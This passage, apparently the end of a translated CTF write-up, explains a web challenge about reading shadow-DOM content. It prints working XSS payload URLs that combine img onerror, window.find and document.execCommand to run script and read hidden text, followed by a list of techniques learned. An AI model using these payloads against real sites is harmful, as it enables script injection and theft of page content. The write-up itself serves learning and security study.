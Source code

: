 Here is the successful payload:

```
https://aszx87410.github.io/demo/misc/shadow.html?y=-webkit-user-modify:+read-write&x=<img+src=x+onerror="find('steal me');document.execCommand('insertHTML',false,'<svg/onload=alert(this.parentNode.innerHTML)>')">
```

First, use `window.find` to focus on the content, then execute `document.execCommand` to insert HTML, and then use the `svg` event to execute JS to get the node.

Here are some payloads that will fail:

```
// 沒有 focus
https://aszx87410.github.io/demo/misc/shadow.html?y=-webkit-user-modify:+read-write&x=<img+src=x+onerror="document.execCommand('insertHTML',false,'<svg/onload=alert(this.parentNode.innerHTML)>')">

// 用了不是 svg 的元素，會讀不到 this.parentNode
https://aszx87410.github.io/demo/misc/shadow.html?y=-webkit-user-modify:+read-write&x=<img+src=x+onerror="find('steal me');document.execCommand('insertHTML',false,'<img/src=x+onerror=alert(this.parentNode.innerHTML)>')">
```

But the magical thing is that if you first add `document.exec('selectAll')` at the beginning, it works:

```
https://aszx87410.github.io/demo/misc/shadow.html?y=-webkit-user-modify:+read-write&x=<img+src=x+onerror="find('steal me');document.execCommand('selectAll');document.execCommand('insertHTML',false,'<img/src=x+onerror=alert(this.parentNode.parentNode.innerHTML)>')">
```

Why is there this difference? I don't know, and the people who solved it don't seem to know either XD

In addition to learning about the magical API [window.find](https://developer.mozilla.org/en-US/docs/Web/API/Window/find), I also learned about another hidden API from the post-event discussion on Discord: `document.execCommand('findString', false, 'steal')`, which they said they saw in the Chromium source code: https://chromium.googlesource.com/chromium/src/+/refs/tags/100.0.4875.3/third_party/blink/renderer/core/editing/commands/editor_command_names.h#35

Here are three things to look into in the future:

1. Study all the commands that `document.execCommand` can execute.
2. Study all global functions.
3. Study all CSS properties supported by Chrome.

## Conclusion

Although I only solved 1 web question out of 10, I still gained a lot. Here are some new things I learned:

1. Node.js wraps modules in functions.
2. You can't use `import "fs"`, but you can use `import("fs").then()`.
3. Some characters in JS change length after being converted to uppercase or lowercase.
4. `RegExp.input`, also known as `RegExp.$_`, can be used to get the last input that was compared.
5. `<svg><svg onload=alert()>` is executed synchronously, which is really amazing.
6. You can fill the connection pool to execute a timing attack.
7. `-webkit-user-modify` can do similar things to `contenteditable`.
8. `window.find` and `document.execCommand('findString', false, 'steal')` can highlight the corresponding string.

"I feel that the techniques I learned this time will also be very useful in other CTF competitions."
